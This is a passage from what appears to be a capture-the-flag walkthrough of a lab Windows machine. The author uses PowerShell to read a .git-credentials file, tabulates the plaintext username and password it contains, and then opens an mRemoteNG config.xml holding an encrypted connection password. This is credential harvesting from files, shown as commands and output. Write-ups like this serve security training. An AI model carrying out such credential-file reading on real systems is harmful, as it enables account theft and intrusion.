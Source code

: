 ```c
d-r---        12/28/2023   5:58 AM                Links                          
d-r---        12/28/2023   5:58 AM                Music                          
d-r---        12/28/2023   5:58 AM                Pictures                       
d-r---        12/28/2023   5:58 AM                Saved Games                    
d-r---        12/28/2023   5:58 AM                Searches                       
d-r---        12/28/2023   5:58 AM                Videos                         
-a----        12/28/2023  11:38 AM             52 .git-credentials               
-a----        12/28/2023  11:35 AM            158 .gitconfig
```

The file `.git-credentials` contained his actual credentials but they had no use at this point.

```c
PS C:\Users\ellen.freeman> type .git-credentials
type .git-credentials
http://ellen.freeman:YWFrWJk9uButLeqx@localhost:3000
```

| Username      | Password         |
| ------------- | ---------------- |
| ellen.freeman | YWFrWJk9uButLeqx |

But the `Documents` folder contained a `config.xml` which was a `configuration file` for a tool called `mRemoteNG`.

```c
PS C:\Users\ellen.freeman\Documents> dir
dir


    Directory: C:\Users\ellen.freeman\Documents


Mode                 LastWriteTime         Length Name                           
----                 -------------         ------ ----                           
-a----        12/28/2023   5:59 AM           3341 config.xml
```

```c
PS C:\Users\ellen.freeman\Documents> type config.xml
type config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
```